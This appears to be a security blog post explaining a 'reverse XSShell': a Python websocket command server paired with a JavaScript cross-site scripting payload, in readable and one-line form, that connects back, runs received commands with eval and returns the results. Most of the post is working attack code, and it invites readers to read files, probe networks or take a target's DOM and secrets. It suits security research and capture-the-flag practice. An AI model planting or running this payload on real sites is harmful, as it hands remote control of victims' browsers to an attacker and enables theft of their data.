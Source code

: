 ```yaml
---
author: "Laluka"
title: "Reverse XSShell"
slug: "reverse_xsshell"
date: 2020-02-22
status: "original"
description: "Having some fun playing with xss and websockets. A different approach to reverse shell and their contexts!"
---
```


# The initial idea

While auditing a website, I found out they were using websockets to transmit data. I didn't kow much about it so I had to [ReadTheFancyManual](https://rtfm.re/). Once I understood that it was... Well... A socket one could use with web technologies, I asked myself "What do I usually do with sockets?"

Tunnels! Transfer files! Or... Spawn reverse shells?!

Or... Spawn a reverse XSShell??


# What do we need?

## A websocket server

```python
import asyncio
import websockets


async def hello(websocket, path):
    print("WebSocket received")

    while True:
        cmd = input("cmd > ")
        await websocket.send(cmd)
        print(f"sent: {cmd}")

        out = await websocket.recv()
        print(f"out : {out}\n")

start_server = websockets.serve(hello, "localhost", 8080)

asyncio.get_event_loop().run_until_complete(start_server)
asyncio.get_event_loop().run_forever()
```

## Some javascript to connect back

- Readable version

```javascript
var socket = new WebSocket("ws://localhost:8080/");

socket.onopen = function() {
  console.log("Connected!");
};

socket.onmessage = function(event) {
  console.log("Cmd received", event.data);
  socket.send(eval(event.data));
  // socket.close();
};
```

- Actual payload I use

```javascript
s=new WebSocket("ws://localhost:8080/"),s.onmessage=function(ev){try{s.send(eval(ev.data))}catch(e){s.send(e)}};
```

## An html page to execute the payload

> Who cares about html anyway?

## In short

You can find the code here: https://gitlab.com/TheLaluka/ctf_utils/-/tree/master/web/websocket_xss

And what this gives us is a reverse shell in a javascript (browser / renderer) context. What you can do from here is up to you.. Try to read files, query the network, mess with your target's DOM or secrets... Have fun ! :)

# Demo

<img class="img_big" src="/hacking/reverse_xsshell/demo.png" alt="demo">


# Limitations

- You still need an xss with little restrictions (use eval, long payload, ...)
- The reverse xsshell can be blocked on its way back by a firewall / proxy / SOP / CSP / ...
- Blocking actions (alert, prompt, redirect, ...) will break the current shell (trig xss again!)


# Appendix

Once again, after spending some time experimenting a new idea, I start google it and... Well, it's not _really_ something new. It's just about re-discovering [what others found before](https://github.com/raz-varren/xsshell). That being said, I love one-liners and keeping things as simple as possible, so it's not the same-same.. :)


<img class="img_big" src="/hacking/reverse_xsshell/same_but_different.gif" alt="same_but_different">